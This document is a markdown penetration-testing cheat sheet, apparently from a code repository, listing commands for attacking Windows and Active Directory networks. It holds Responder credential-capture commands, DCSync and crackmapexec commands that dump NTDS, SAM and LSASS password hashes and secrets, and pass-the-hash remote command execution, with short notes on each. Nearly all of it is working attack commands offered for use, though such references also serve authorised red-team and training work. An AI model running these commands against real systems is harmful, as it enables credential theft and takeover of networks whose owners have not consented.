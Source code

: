 # Network Information

## Passive

`arp -a`

`ip a`

`ifconfig / ipconfig`

`tcpdump -i eth0`

`netdiscover`

## Scanning

`nbtscan 192.168.1.1/24`

`nbtscan-unixwiz 192.168.1.1/24`

`nmap -sSV --open -iL ips.txt -oA output`

`sudo nmap --script broadcast-dhcp-discover`

`ping 255.255.255.255`

`masscan`

## Recon

`enum4linux -a <ip>`

`smbmap -H <ip>`

`crackmapexec smb <ip>`

Get IP and hostname

## Responder

### Analyze Mode
`responder -I eth0 -A`

`responder -I eth0 -wFP`

### Force Basic Auth
`responder -I eth0 -wbFP`

### DHCP
`responder -I eth0 -wdF`


# SSH Tunneling

### Socks proxy
`ssh -D 8080 root@<ip>`

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy if present

# Dumping

## DCSYNC

`impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output`

Gets all password history too, useful for identifying patterns

`crackmapexec smb <ip> -u user -p password --ntds`

## Other

`crackmapexec smb <ip> -u user -p password --sam`

Local SAM passwords, NTLM

`crackmapexec smb <ip> -u user -p password --lsa`

Looks for LSASS secrets, includes tokens and plaintext passwords stored in memory.

# Bloodhound

# crackmapexec

`crackmapexec smb <ip> -u user -p password -x 'whoami'`

-X for PowerShell, gets blocked by most systems

`crackmapexec smb <ip> -u user -H hash -x 'whoami'`

Pass the hash. This attack only works with NTLM hashes, not net hashes.

**Protocols**: {smb,rdp,winrm,ssh,ldap,mssql,ftp}

* **-u**: username
* **-p**: text password
* **--local-auth**: local auth, not domain auth
* **-x**: command execution
* **-X**: powershell command execution
  * Works better with winrm
* **-d**: domain

# smbmap

* **-H**: host
* **--host-file**: hosts file
* **-u**: username
* **-p**: text password or NT:LM hash
* **-d**: domain


# Windows Hashes

## NTLM
Local user hash, can be relayed to hosts with SMB signing disabled.

`Admin:500:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::`

Name:RID (relative identifier):LM hash:NT hash

## RID

* **500**: Administrator
* **501**: Guest
